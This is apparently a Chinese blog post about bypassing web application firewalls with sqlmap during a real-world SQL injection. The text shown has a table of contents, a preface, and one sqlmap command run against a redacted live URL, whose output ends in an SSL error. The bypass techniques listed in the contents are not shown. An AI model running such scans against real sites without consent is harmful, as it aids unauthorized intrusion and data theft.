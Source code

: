 # 原创
：  实战sqlmap绕过WAF

# 实战sqlmap绕过WAF

**目录**

[前言](#toc-0)

[实战演示](#toc-1)

[中转注入的原理](#toc-2)

[post型中转注入](#toc-3)

[sqlmap绕过WAF的思路总结](#toc-4)

---


> 
如果文章对你有帮助，欢迎**关注、点赞、收藏**一键三连支持以下哦！
想要一起交流学习的小伙伴可以加zkaq222（备注CSDN，不备注通不过哦）进入学习，共同学习进步


## 前言

随着最近几年安全行业的兴起，市场关注度的不断提升，安全防护的软件也在不断提升,不在是那个随便找一个站就能马上发现漏洞了，没有以前那么多所谓的“靶场”了，在这次的实战中遇到的SQL注入与其他的有点不一样，需要考虑的东西很多，写得不好的地方师傅们勿喷。

## 实战演示

通过前期的信息收集发现存在注入的页面如下：

 直接使用sqlmap跑发现出现如下错误：

```
python2 sqlmap.py -u "http://xxxx?&amp;daxxtae=null&amp;parame=xxxxxx" --batch --delay=1 --random-agent
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.4.7#dev}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:12:10 /2021-10-10/
[10.12.10] [INFO] parsing HTTP request from '49'
custom injection marking character ('*') found in option '--data'. Do you want to process it?  [Y/n/q]Y
[10:12:10] [INFO] testing connection to the target URL
[10:12:10] [CRITICAL] can't establish SSL connection
```
